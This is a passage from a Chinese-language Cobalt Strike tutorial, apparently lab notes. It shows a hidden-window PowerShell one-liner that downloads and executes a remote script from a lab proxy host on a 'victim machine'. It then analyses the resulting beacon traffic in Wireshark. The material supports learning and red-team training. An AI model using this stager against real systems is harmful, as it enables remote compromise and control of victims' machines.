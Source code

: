 在受害机执行powershell恶意代码: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://proxy1.team.com:80/a'))"`后, 受害机在CS客户端界面显示上线

<img src="CobaltStrike的使用教程/image-20221002003244133.png" alt="image-20221002003244133" style="zoom: 50%;" />	



## 受害机抓包分析

使用Wireshark抓取HTTP数据包进行分析, 受害机的ip地址为`192.168.47.141`, 它向`192.168.47.140`(proxy2.team.com)发http数据包, 随后`192.168.47.140`向`192.168.47.134`(cs.team.com)发http数据包, 除此之外受害机还向`192.168.47.131`(proxy1.team.com)发了http数据包

![image-20221002004235260](CobaltStrike的使用教程/image-20221002004235260.png)
